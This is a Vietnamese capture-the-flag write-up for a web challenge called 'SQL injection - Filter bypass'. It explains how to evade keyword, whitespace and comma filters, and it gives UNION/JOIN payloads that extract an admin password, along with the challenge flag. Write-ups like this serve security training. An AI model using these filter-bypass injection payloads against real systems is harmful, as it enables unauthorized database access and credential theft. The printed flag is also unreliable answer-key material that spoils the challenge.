 ```diff
@@Web-Server Challenges @@
```

## SQL injection - Filter bypass [80 Points]

* Mô tả ngắn gọn: Chúng ta sẽ inject vào tham số id ở đây

  ![11](img/11.jpg)

* Các ký tự bị filter và cách bypass như sau:

  * **Whitespace** = > thay thế bằng **%09** (tab)
  * **select** = > thay thế bằng **SELECT**
  * **union** = > thay thế bằng **UNION**
  * **join** = >  thay thế bằng **JOIN**
  * **select  1,2 (filter dấu , )** = > thay thế bằng **(SELECT 1) AS A JOIN (SELECT 2) AS B ** (Nếu không có alias cho sub-query sẽ bị lỗi *Every derived table must have its own alias*)
  * **where** = > Thay thế bằng **limit** và **offset** 

* Ta có được hint từ source như sau

  ![11-1](img/11-1.jpg)

* Vậy là bảng có 4 cột, payload của ta sẽ có dạng như sau

  ```sql
  0 union select * from (select 1) as A join (select 2) as B join (select 3) as C join (select 4) as D
  ```

* Thay thế để nó bypass được filter thì payload trở thành như sau

  ```sql
  0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%094)%09AS%09D
  ```

* Kết quả thu được

  ![11-2](img/11-2.jpg)

* Sửa đổi 1 cột để trả ra password của admin và kết quả thu được là:

  * Payload: 

    ```sql
    0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%09pass%09From%09membres%09LIMIT%091%09OFFSET%090%09)%09AS%09D
    ```

  * Result:

    ![11-3](img/11-3.jpg)

  * ```diff
    -- Flag: KLfgyTIJbdhursqli
    ```

